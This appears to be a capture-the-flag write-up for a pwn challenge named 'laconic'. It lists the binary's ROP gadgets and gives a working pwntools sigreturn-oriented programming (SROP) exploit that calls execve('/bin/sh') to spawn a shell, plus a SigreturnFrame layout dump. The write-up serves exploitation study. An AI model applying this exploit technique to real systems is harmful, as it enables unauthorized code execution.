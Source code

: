 * Description

Sir Alaric's struggles have plunged him into a deep and overwhelming sadnessl, leaving him unwilling
to speek to anyone. Can you find a way to lift his spirits and bring back his courage?

* Solution

Let's play with the program, we'll get following:
[[file:2025-04-19_13-35.png]]

So, it's do something like =shellcode=, which require input with length *262*.

[[file:2025-04-19_13-42.png]]

We can see that program only call a ~read(0, rsp - 8, 0x106)~ syscall then exit. According to the
=cheksec= and debug info, the ~NX~ not enable.

So let's check the program =gadgets=:
#+begin_src bash
Trying to open 'dist/laconic'..
Loading ELF information..
FileFormat: Elf, Arch: x64

Wait a few seconds, rp++ is looking for gadgets (2 threads max)..
A total of 36 gadgets found.
You decided to keep only the unique ones, 35 unique gadgets found.
0x43006: add byte [rax-0x77], cl ; out 0x48, al ; sub esi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; ret ; (1 found)
0x43006: add byte [rax-0x77], cl ; out 0x48, al ; sub esi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; (1 found)
0x43004: add byte [rax], al ; add byte [rax-0x77], cl ; out 0x48, al ; sub esi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; (1 found)
0x43003: add byte [rax], al ; add byte [rax], al ; mov rsi, rsp ; sub rsi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; (1 found)
0x43005: add byte [rax], al ; mov rsi, rsp ; sub rsi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; ret ; (1 found)
0x43005: add byte [rax], al ; mov rsi, rsp ; sub rsi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; (1 found)
0x43013: add byte [rax], al ; syscall ; ret ; (1 found)
0x43013: add byte [rax], al ; syscall ; (1 found)
0x43002: mov  [rax], 0x48000000 ; mov esi, esp ; sub rsi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; ret ; (1 found)
0x43002: mov  [rax], 0x48000000 ; mov esi, esp ; sub rsi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; (1 found)
0x43001: mov edi, 0x00000000 ; mov rsi, rsp ; sub rsi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; ret ; (1 found)
0x43001: mov edi, 0x00000000 ; mov rsi, rsp ; sub rsi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; (1 found)
0x4300f: mov edx, 0x00000106 ; syscall ; ret ; (1 found)
0x4300f: mov edx, 0x00000106 ; syscall ; (1 found)
0x43008: mov esi, esp ; sub rsi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; ret ; (1 found)
0x43008: mov esi, esp ; sub rsi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; (1 found)
0x43000: mov rdi, 0x0000000000000000 ; mov rsi, rsp ; sub rsi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; ret ; (1 found)
0x43000: mov rdi, 0x0000000000000000 ; mov rsi, rsp ; sub rsi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; (1 found)
0x4300e: mov rdx, 0x0000000000000106 ; syscall ; ret ; (1 found)
0x4300e: mov rdx, 0x0000000000000106 ; syscall ; (1 found)
0x43007: mov rsi, rsp ; sub rsi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; ret ; (1 found)
0x43007: mov rsi, rsp ; sub rsi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; (1 found)
0x4300d: or byte [rax-0x39], cl ; retn 0x0106 ; (1 found)
0x43009: out 0x48, al ; sub esi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; ret ; (1 found)
0x43009: out 0x48, al ; sub esi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; (1 found)
0x4300c: out dx, al ; or byte [rax-0x39], cl ; retn 0x0106 ; (1 found)
0x43018: pop rax ; ret ; (1 found)
0x43017: ret ; (2 found)
0x43010: retn 0x0106 ; (1 found)
0x4300b: sub esi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; ret ; (1 found)
0x4300b: sub esi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; (1 found)
0x4300a: sub rsi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; ret ; (1 found)
0x4300a: sub rsi, 0x08 ; mov rdx, 0x0000000000000106 ; syscall ; (1 found)
0x43015: syscall ; ret ; (1 found)
0x43015: syscall ; (1 found)
#+end_src

We can see that gadgets is very limited. Seems that we can't place shellcode to stack then jump(ret)
to it directly. But luckily, there're ~pop rax; ret~ and ~syscall~. So we can control the syscall we
want, after some investigation within Google. I find that [[https://en.wikipedia.org/wiki/Sigreturn-oriented_programming][SROP]] can successfully achieve the goal.

#+begin_src python :results output
#!/usr/bin/env python

from pwn import *
context.arch = 'amd64'

# cause strings ./dist/laconic show that program have /bin/sh already
# pwndbg> search /bin/sh
# Searching for byte: b'/bin/sh'
# laconic         0x43238 0x68732f6e69622f /* '/bin/sh' */
binsh_addr = 0x43238
# SROP Frame
frame = SigreturnFrame()
frame.rax = 0x3b                          # execve syscall number
frame.rdi = binsh_addr
frame.rsi = 0
frame.rdx = 0
frame.rip = 0x43015                       # syscall

payload = b'A' * 8 # padding for rsp - 8
payload += p64(0x43018)
payload += p64(0xf)                # sigreturn syscall number
payload += p64(0x43015)
payload += bytes(frame)

if args.GDB:
    io = gdb.debug('./dist/laconic', '''
    b *0x43017
    c
    ''')
else:
    io = process('./dist/laconic')
_ = io.sendline(payload)

io.interactive()
#+end_src

amd64 architecture Sigreturnframe:
#+begin_src ipython
In [3]: context.arch = 'amd64'

In [4]: f = SigreturnFrame()

In [5]: len(f)
Out[5]: 248

In [6]: f
Out[6]:
{'uc_flags': 0,
 '&uc': 0,
 'uc_stack.ss_sp': 0,
 'uc_stack.ss_flags': 0,
 'uc_stack.ss_size': 0,
 'r8': 0,
 'r9': 0,
 'r10': 0,
 'r11': 0,
 'r12': 0,
 'r13': 0,
 'r14': 0,
 'r15': 0,
 'rdi': 0,
 'rsi': 0,
 'rbp': 0,
 'rbx': 0,
 'rdx': 0,
 'rax': 0,
 'rcx': 0,
 'rsp': 0,
 'rip': 0,
 'eflags': 0,
 'csgsfs': 51,
 'err': 0,
 'trapno': 0,
 'oldmask': 0,
 'cr2': 0,
 '&fpstate': 0,
 '__reserved': 0,
 'sigmask': 0}
#+end_src

